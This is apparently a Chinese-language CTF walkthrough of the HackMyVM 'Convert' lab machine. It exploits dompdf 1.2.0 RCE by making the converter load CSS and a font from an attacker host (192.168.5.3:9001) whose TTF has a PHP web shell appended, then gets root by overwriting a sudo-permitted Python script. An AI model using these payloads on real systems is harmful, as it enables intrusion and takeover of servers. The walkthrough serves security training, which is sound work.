 # Convert

2024.12.28 https://hackmyvm.eu/machines/machine.php?vm=Convert

[video](https://www.bilibili.com/video/BV1PqQVY2Ega/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

22 端口上不允许匿名登陆，看看 80 web 上有什么信息：http://192.168.5.40/ 显示了一个网页转化为 pdf 的网站。

先对其进行目录扫描，看看有什么：

```
http://192.168.5.40/index.php            (Status: 200) [Size: 1026]
http://192.168.5.40/upload               (Status: 301) [Size: 169] [--> http://192.168.5.40/upload/]
```

http://192.168.5.40/upload 403 不允许访问。其中转化出来的 pdf 是存在这个目录中 http://192.168.5.40/upload/

重点来看这个 html to pdf 的功能，把自己转换出来的 pdf 保存在 kali 上，然后查看 pdf 详细信息：

```
pdfinfo 1111.pdf

Producer:        dompdf 1.2.0 + CPDF
CreationDate:    Sun Apr 28 11:03:52 2024 CST
ModDate:         Sun Apr 28 11:03:52 2024 CST
```

看到是 dompdf 1.2.0 转换生成的，经过搜索，这个 pdf 转换库，存在 RCE 漏洞 51270.py，进行利用：

```
python3 51270.py --inject http://192.168.5.40/index.php?url= --dompdf http://192.168.5.40/dompdf/

[err]: failed to trigger the payload!
[inf]: url: http://192.168.5.40/dompdf/lib/fonts/exploitfont_normal_f776a221d3d01869caf352500f07dfe4.php - status_code: 404
[inf]: process complete!
```

但是最后出现 php 后门访问不到的情况。

经过搜索，参照了这个利用: https://github.com/positive-security/dompdf-rce

创建 3 个文件：

index.html:

```
<link rel=stylesheet href='http://192.168.5.3:9001/exploit.css'>
```

exploit.css:

```
@font-face {
    font-family:'exploitfont';
    src:url('http://192.168.5.3:9001/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
}
```

exploit_font.php:

```
find / -name "*.ttf" 2>/dev/null # 随意找到一个 ttf 文件，在其末尾写入 web shell
cp /usr/share/fonts/truetype/lato/Lato-Medium.ttf exploit_font.php

echo "<?php system('$_REQUEST[]');?>" >> exploit_font.php

echo -n http://192.168.5.3:9001/exploit_font.php |md5sum
f776a221d3d01869caf352500f07dfe4
```

然后对这个 url 进行 pdf 转换： http://192.168.5.3:9001/index.html ，然后在访问写入的后门链接：

```
curl --output - http://192.168.5.40/dompdf/lib/fonts/exploitfont_normal_f776a221d3d01869caf352500f07dfe4.php?1=id

uid=1000(eva) gid=1000(eva) groups=1000(eva)
```

直接先进行反弹,先拿到了 user flag：

```
eva@convert:~$ cat /home/eva/user.txt
f2be48d6f922bfc0a9bf45b22887c10d
```

sudo -l 显示 `(ALL : ALL) NOPASSWD: /usr/bin/python3 /home/eva/pdfgen.py *` 看一下/home/eva/pdfgen.py 的源代码，实现的功能能将读取到的 url 内容保存到 pdf 中，但是程序中做了限制，不能用 file 和 data 的 schema，也不能访问 etc 和 root 开始的目录，找不到直接漏洞。

这个文件在/home/eva 目录中，当前用户有写权限，直接将这个文件删除，然后重建：

```
rm -f pdfgen.py
echo 'import os;os.system("/bin/bash -p")' > pdfgen.py

sudo /usr/bin/python3 /home/eva/pdfgen.py 1
```

拿到了最终的 flag：

```
root@convert:~# cat root.txt
1cc872dad04d177e6732abbedf1e525b
```

